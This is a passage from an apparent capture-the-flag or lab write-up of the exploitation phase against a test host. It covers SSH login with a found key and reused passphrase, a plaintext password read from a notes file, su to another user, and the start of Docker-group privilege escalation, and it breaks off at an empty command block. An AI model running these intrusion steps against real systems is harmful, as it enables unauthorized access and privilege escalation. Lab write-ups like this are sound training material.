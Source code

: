 ### Exploitation
Given I got a private key to `OpenSSH`, and there is an open `OpenSSH` port in `1337` TCP, then I can start to guess the username to try to connect with `ssh`
And after a few attempts, I identify that it reuses the `web:pipocadoce`:
```shell
$ ssh -i id_rsa web@192.168.2.9 -p 1337
```
When it asks me for a passphrase:
```shell
Enter passphrase for key 'id_rsa':
```
And I use `pipocadoce`
Then I get the shell of the web user:
```
web@xptosystem:~$
```
Then I start enumerating the server, and find a `remember.txt` file inside the home web directory:
```
web@xptosystem:~$ cat remember.txt
Task List:
- Request xptosys software test
- Schedule a meeting with the devsecops teams
- Change sysdev password: PassSecret#789%
- Request sysdev permissions release
- Schedule Status Report Meeting
```
And I could find the `sysdev:PassSecret#789%` credentials, And I change to the `sysdev` user with the `su` command:
```
web@xptosystem:~$ su sysdev
```
And it works, but I could not find any useful, and I return to the web user. When I use the id command:
```shell
web@xptosystem:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),112(docker)
```

Then I identified that the web user belongs to the docker group. and I google `privilege escalation with docker` and I found in [Writable Docker Socket in Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket) that if I can write in the docker socket, then I can escalate privileges `CVE-2014-3499` :
![evidence](./0-anexos/09-docker-socket.png)
When I check with the docker group in what files I can write using find:
```shell
```